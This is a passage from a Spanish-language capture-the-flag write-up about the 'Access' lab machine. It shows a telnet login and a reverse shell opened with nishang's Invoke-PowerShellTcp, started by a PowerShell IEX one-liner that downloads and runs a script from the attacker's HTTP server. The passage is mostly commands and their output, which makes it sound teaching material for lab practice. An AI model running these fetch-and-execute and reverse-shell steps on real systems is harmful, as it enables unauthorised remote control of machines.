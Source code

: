 ```bash
❯ telnet 10.10.10.98
Trying 10.10.10.98...
Connected to 10.10.10.98.
Escape character is '^]'.
Welcome to Microsoft Telnet Service 

login: security
password: 

*===============================================================
Microsoft Telnet Server.
*===============================================================
C:\Users\security>whoami
access\security

C:\Users\security>
```

Y nos encontramos dentro de la máquina como el usuario `access\security` y ya podemos visualizar la flag (user.txt). Antes de enumerar un poco el sistema, vemos que no tenemos posibilidad de movernos libremente sobre la consola de telnet, por lo tanto, vamos a entablarnos una reverse shell para que sea más cómodo.

```bash
❯ locate Invoke-PowerShellTcp
/usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1
/usr/share/nishang/Shells/Invoke-PowerShellTcpOneLine.ps1
/usr/share/nishang/Shells/Invoke-PowerShellTcpOneLineBind.ps1
❯ cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 PS.ps1
```

Agregamos al final del archivo `PS.ps1` la línea `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.27 -Port 443` y ahora, compartimos un servidor HTTP con python, nos ponemos en escucha por el puerto 443 y ejecutamos lo siguiente en la máquina víctima.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.98 - - [02/Jan/2022 17:15:26] "GET /PS.ps1 HTTP/1.1" 200 -
```

```bash
C:\Users\security>powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.27/PS.ps1')
```

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.98] 49158
Windows PowerShell running as user security on ACCESS
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

whoami
access\security
PS C:\Users\security>
```
